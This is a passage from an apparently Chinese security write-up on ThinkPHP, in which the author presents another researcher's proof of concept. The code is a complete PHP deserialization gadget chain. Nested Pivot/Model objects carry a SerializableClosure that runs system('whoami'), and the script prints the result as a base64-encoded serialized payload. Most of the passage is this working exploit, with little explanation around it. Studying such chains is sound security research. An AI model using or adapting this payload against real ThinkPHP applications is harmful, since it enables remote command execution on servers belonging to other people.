 ```php
?>
```
#### 0x03其他POC挖坑
没有独立复现出来有点遗憾，这里找到了另一个师傅的POC，思路有点不一样，打算下次自己复现一下。

```php
<?php
namespace think;
require __DIR__ . '/vendor/autoload.php';
use Opis\Closure\SerializableClosure;
abstract class Model{
    private $lazySave ;
    private $exists ;
    private $suffix;
    protected $append = [];
    private $data = [];
    protected $visible = [];
    private $withAttr = [];
    function __construct($aaa){
    	//withAttr中的键值要与data中的键值相等
        if ($aaa == null){
            $this->data = ["huha"=>''];
            $this->withAttr = ['huha'=> new SerializableClosure(function(){system('whoami');}) ];
        }else{
            $this->data = [1];
            $this->lazySave =true;
            $this->exists = true;
            $this->suffix = $aaa;
        }

    }
}
namespace think\model;
use think\Model;
class Pivot extends Model
{
    public function __construct($aaa){
        parent::__construct($aaa);
    }
}

$pivot1 = new Pivot(null);
$pivot2 = new Pivot($pivot1);
$a = base64_encode(serialize($pivot2));
echo $a;
//var_dump(unserialize(base64_decode($a)));
?>
```
